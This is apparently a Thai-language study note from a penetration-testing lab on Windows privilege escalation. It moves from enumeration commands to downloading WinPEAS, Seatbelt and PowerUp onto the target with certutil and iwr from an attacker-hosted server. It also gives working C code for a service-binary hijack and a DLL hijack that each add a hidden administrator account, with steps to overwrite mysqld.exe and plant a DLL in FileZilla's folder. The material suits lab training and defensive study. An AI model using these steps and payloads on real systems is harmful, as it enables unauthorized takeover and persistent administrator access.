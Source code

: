 [[mimikatz]]

```
git clone https://github.com/gentilkiwi/mimikatz.git

```

# Windows Privilege Escalation 

```
# Level 1 Win Priv Manual 

whoami 
# ตรวจสอบ Privilege ของ User ที่ใช้
whoami /priv
whoami /group

# ตรวจสอบ Localgroup ภายในเครื่องเป้าหมาย
net localgroup

# ตรวจสอบ Users ภายใน Groups Remote Management Users 
net localgroup "Remote Management Users"

# เข้าใช้งาน Powershell ภายใต้ Commandline Interface 
powershell -ep bypass

# ตรวจสอบสิทธิ admin 
Get-LocalGroupMember administrators

# ตรวจสอบรายละเอียด Application ที่ติดตั้งบน Computer
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" 
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*"

# ตรวจสอบเฉพาะชื่อแอพที่ติดตั้ง
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# ตรวจสอบ Process บนเครื่องเป้าหมาย 
powershell -ep bypass 
Get-Process

# ตรวจสอบรายละเอียดของ Process ชื่อ NonStandardProcess
Get-Process -Name "NonStandardProcess"| format-list *


# ค้นหาไฟล์ตาม File type ที่สนใจ
Get-ChildItem -Path C:\XAMPP -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue 

# คำสั่ง su หรือ Switch Users บน Windows 
runas /user:backupadmin cmd
# แล้วจะมีให้ใส่ password
Enter the password for backupadmin:
Attempting to start cmd as user "CLIENTWK220\backupadmin" 


# คำสั่งตรวจสอบ Powershell command History 
Get-History
(Get-PSReadlineOption).HistorySavePath



```

[[WinEventlogSearching]]
การตรวจสอบ Event ภายใต้ Windows สามารถใช้ Event Viewer ในการตรวจสอบที่ PATH: Application and service Logs > Microsoft > Windows > PowerShell > Operation   Script Block logging event in windows is 4104 

![[EventID4104.png]]

![[EVENTID4104-2.png]]


[[evil-winrm]]
```
# Command บน Kali สำหรับ Powershell ไปยัง Windows 
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```


Level 2 Automate tools 

```
ติดตั้ง WinPeas
sudo apt install peass 
updatedb 
locate winpeas
/usr/bin/winpeas
/usr/share/peass/winpeas
/usr/share/peass/winpeas/winPEAS.bat
/usr/share/peass/winpeas/winPEASany.exe
/usr/share/peass/winpeas/winPEASany_ofs.exe
/usr/share/peass/winpeas/winPEASx64.exe
/usr/share/peass/winpeas/winPEASx64_ofs.exe
/usr/share/peass/winpeas/winPEASx86.exe
/usr/share/peass/winpeas/winPEASx86_ofs.exe

python3 -m http.server 80
certutil.exe -urlcache -split -f http://192.168.45.241/winPEASx64.exe winPEASx64.exe
.\winPEASx64.exe


# Seatbelt Repo 
https://github.com/GhostPack/Seatbelt
# Download Binaries file@
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git

python3 -m http.server 80 
certutil.exe -urlcache -split -f http://192.168.45.241/Seatbelt.exe Seatbelt.exe  
.\Searbelt.exe -group=all 

```


Level 3: Hack Windows Service 

```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

|Mask|Permissions|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|

# ตรวจสอบสิทธิของ httpd.exe หรือ App ที่สนใจว่า user ที่เราใช้มีสิทธิอะไรบนไฟล์หรือ Service ดังกล่าว โดขให้มองหาสิทธิที่เป็น Full หรือ RX 
icacls "C:\xampp\apache\bin\httpd.exe"
icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(F)

```

จากตัวอย่างจะเห็นว่า Buildin\Users: มีสิทธิ Full Access ฉะนั้นเราสามารถทำ [[Win Service Binary Hijacking]] ได้ 

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```

จากนั้น ก็นำโปรแกรมไป Compire บน Kali 

```
# Compile adduser.c > .exe 
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe 

# download adduser.exe
certutil.exe -urlcache -split -f http://192.168.45.241/adduser.exe adduser.exe

# Backup ไฟล์ mysqld.exe กรณีพัง 
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe C:\xampp\mysql\bin\mysqld2.exe.bkk       
move C:\xampp\mysql\bin\mysqld.exe C:\xampp\mysql\bin\mysqld2.exe.bkk

# เขียนทับ mysqld.exe ด้วย adduser.exe 
PS C:\Users\dave> copy adduser.exe C:\xampp\mysql\bin\mysqld.exe 
copy adduser.exe C:\xampp\mysql\bin\mysqld.exe 

# Restart เพื่อให้รัน Service
PS C:\Users\dave> shutdown /r /t 0 

Get-LocalGroupMember administrators

evil-winrm -i 192.168.222.220 -u dave2 -p 'password123!'

```


[[PowerUp.ps1]]

```
locate PowerUp
/usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 . 

certutil.exe -urlcache -split -f http://192.168.45.241/PowerUp.ps1 PowerUp.ps1

# จำเป็นต้องรันทุกครั้งก่อนรัน PowerUp
powershell -ep bypass
. .\PowerUp.ps1

# หลังจากติดตั้ง PowerUp เราสามารถตรวจสอบหา Service ที่สามารถแก้ไขได้และสามารถ upload adduser.exe ไปแทนได้ นั่นเอง
Get-ModifiableServiceFile 

```

![[Powerup-1.png]]![[PowerUp-2.png]]


[[WinDLLHijacking]]

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

```
# เตรียม DLL สำหรับ Hijack 
sudo apt update
sudo apt install g++-mingw-w64 

x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll

```

ภายใต้ Procmon เราจะ Filter Service ที่สนใจ ในที่นี้เป็น Filezilla.exe และทำการตรวจหา DLL ที่ขึ้นผลลัพธ์เป็น NAME NOT FOUND 
![[windllinjectwithprocmon.png]]

ช่องโหว่ของ FileZilla version ที่ใช้ มีช่องโหว่บน DLL ดังตัวอย่าง

```
C:\FileZilla\FileZilla FTP Client\TextShaping.dll 
```

```
iwr -uri http://192.168.45.241/dllhij.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
```
